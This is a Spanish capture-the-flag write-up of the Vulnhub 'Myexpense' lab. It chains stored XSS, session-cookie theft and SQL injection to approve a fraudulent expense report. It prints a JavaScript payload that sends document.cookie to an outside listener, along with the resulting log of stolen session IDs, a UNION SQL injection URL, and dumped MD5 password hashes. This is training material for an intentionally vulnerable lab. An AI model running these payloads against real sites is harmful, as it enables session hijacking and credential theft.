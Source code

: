 ```yaml
---
title: Myexpense Writeup Vulnhub
published: true
---
```


# Historia

La máquina "Myexpense" nos pone en la situación de que somos "Samuel Lamotte" y acabamos de ser despedido de la empresa "Furtura Business Informatique". Lamentablemente, debido a su precipitada marcha, no ha tenido tiempo de validar el informe de gastos de su último viaje de negocios, que aún asciende a 750 € correspondientes a un vuelo de ida y vuelta a su último cliente.

# Enumeración

Empezamos detectando en que IP está la máquina que nos hemos descargado

```bash
fping -a -g 192.168.1.0/24 2>/dev/null
```

Y en mi caso está en la IP 192.168.1.80 

Ahora ya podemos escanear con nmap

```nmap
nmap -sCV -T4 192.168.1.80 

Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-30 16:12 CEST
Nmap scan report for 192.168.1.79
Host is up (0.00026s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Futura Business Informatique GROUPE - Conseil en ing\xC3\xA9nierie
| http-robots.txt: 1 disallowed entry 
|_/admin/admin.php

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.43 seconds
```

Gracias a la enumeración de nmap podemos ver que existe /admin/admin.php

![1a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/289cf8a7-e11d-4310-85ed-0355ed9a7ef6)

Si le damos al boton de "Inactive" para cambiarlo a "Active" pero no podemos porque lo tiene que hacer un administrador

![2a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/b12c1aec-bdb0-42de-be93-615d92309251)

Probamos a iniciar sesión pero la cuenta de "slamotte" esta inactiva, asi que tendremos que crear una cuenta nueva. Dentro de la pagina para crear una cuenta nueva podemos probar a realizar un XSS. Lo que vamos a hacer es crear un XSS donde llame a la petición "192.168.1.80/admin/admin.php?id=11&status=active"

El codigo javascript que usaremos será el siguiente:

```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.1.79/admin/admin.php?id=11&status=active');
request.send();
```

Ponemos el siguiente XSS en el lugar de "Firstname" y "Lastname"

```javascript
<script src="http://192.168.1.76/eskere.js"></script>
```

Abrimos un servidor http

```python
python3 -m http.server 80
```

Para poder mandarlo tendremos que borrar la etiqueta "disabled=""".

![3a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/1a098021-e152-4704-8f95-1f406bfd7530)

Después de un rato podremos ver lo siguiente

```python
python3 -m http.server 80        
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.80 - - [30/Jul/2023 17:42:13] "GET /eskere.js HTTP/1.1" 200 -
```

Y podremos acceder a la cuenta de Samuel y podremos mandar la solicitud del dinero

![4a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/2684c305-69b5-42a5-bfcc-9efcf9d25773)

Lo mandamos y mirando la página web podemos encontrar en nuestro perfil que nuestro manager es "Manon Riviere". Para ello tendremos que modificar el script que teníamos antes pero en vez de mandar una petición, tendremos que capturar la cookie del usuario de "Manon Riviere"

(Cambiamos el puerto para que no cause problemas con el anterior script que habíamos creado)

```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.1.79:4444/?cookie=' + document.cookie);
request.send();
```

```python
python3 -m http.server 4444

Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
192.168.1.76 - - [30/Jul/2023 21:18:12] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.76 - - [30/Jul/2023 21:18:12] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.76 - - [30/Jul/2023 21:18:12] "GET /?cookie=PHPSESSID=01mm6p8v9vrrqar6omtmf9qoc2 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:17] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:17] "GET /?cookie=PHPSESSID=f8ssrjl36iljv0d3ijkvrj4hu2 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:22] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:22] "GET /?cookie=PHPSESSID=lais5ikdk3o7s4rju48lj729l5 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:22] "GET /?cookie=PHPSESSID=lais5ikdk3o7s4rju48lj729l5 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:25] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:25] "GET /?cookie=PHPSESSID=950elpe0sss3vrjuc9ijntt8a7 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:25] "GET /?cookie=PHPSESSID=950elpe0sss3vrjuc9ijntt8a7 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:26] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:26] "GET /?cookie=PHPSESSID=s9ldcc3i4nh0vjlihhl87f4e81 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:26] "GET /?cookie=PHPSESSID=s9ldcc3i4nh0vjlihhl87f4e81 HTTP/1.1" 200 -
```

Probamos cada una de las cookies hasta que nos podamos cambiar de usuario ha "Manon Riviere"

![5a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/6cd1f6ff-dc82-427b-807e-eab0e1b66fb1)

![6a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/35d5449f-929f-42c3-a611-02a643f7cc01)

Entramos en la pestaña "Expense reports" y permitimos el pago. Como paso final tenemos que llegar a ser "Paul Bauduoin" que es un "Financial approver". En la pestaña de "Rennes" podemos ver que si añadimos una ' en la url podemos ver que aparece el siguiente error.

![7a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/ac3c1d51-5a0a-4e3a-b048-5371fe615535)

Asi que utilizando XSS otra vez pero en la url podremos sacar las contraseñas de los usuarios de la base de datos con la siguiente sintasis.

```sql
http://192.168.1.81/site.php?id=2 union select 1, group_concat(username,0x3a, password) from user-- -
```

copiamos todo el contenido en un bloc de notas y quedaría así

```
afoulon:124922b5d61dd31177ec83719ef8110a
pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a
rlefrancois:ef0dafa5f531b54bf1f09592df1cd110
mriviere:d0eeb03c6cc5f98a3ca293c1cbf073fc
mnguyen:f7111a83d50584e3f91d85c3db710708
pgervais:2ba907839d9b2d94be46aa27cec150e5
placombe:04d1634c2bfffa62386da699bb79f191
triou:6c26031f0e0859a5716a27d2902585c7
broy:b2d2e1b2e6f4e3d5fe0ae80898f5db27
brenaud:2204079caddd265cedb20d661e35ddc9
slamotte:21989af1d818ad73741dfdbef642b28f
nthomas:a085d095e552db5d0ea9c455b4e99a30
vhoffmann:ba79ca77fe7b216c3e32b37824a20ef3
rmasson:ebfc0985501fee33b9ff2f2734011882
deviltrigger:3f2c8111d6a0cfd65cf04dcf466014ca
```

Continuamos desencriptando la contraseña de "pbaudouin" que está en md5. Iniciamos sesión con su usuario y contraseña y finalmente podremos validar el pago. Una vez validado podemos volver a la cuenta de "slamotte" conseguiremos la flag de la máquina.

![8a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/6c857bb7-d313-44b7-91bb-cfe579335bf5)
